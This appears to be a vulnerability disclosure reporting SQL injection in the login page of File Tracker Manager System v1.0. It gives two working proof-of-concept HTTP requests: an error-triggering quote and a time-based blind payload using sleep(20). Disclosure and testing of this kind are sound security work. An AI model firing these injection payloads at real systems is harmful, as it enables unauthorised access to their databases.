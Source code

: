 # File Tracker Manager System v1.0 has SQL injection

BUG_Author: godownio

Website source address:https://www.sourcecodester.com/php/11510/file-tracker-manager.html

Vulnerability File: /file_manager/login.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=a'&password=b

```
POST /file_manager/login.php HTTP/1.1
Host: 192.168.0.107
Content-Length: 22
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.107
Referer: http://192.168.0.107/file_manager/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=a'&password=b
```

An error occurred in the sql statement

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/sql1.png)

Payload2:username=a' and (select 1 from (select(sleep(20)))a)-- a&password=b

```
POST /file_manager/login.php HTTP/1.1
Host: 192.168.0.107
Content-Length: 67
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.107
Referer: http://192.168.0.107/file_manager/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=a' and (select 1 from (select(sleep(20)))a)-- a&password=b
```

Server response time is 20 seconds

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/sql2.png)
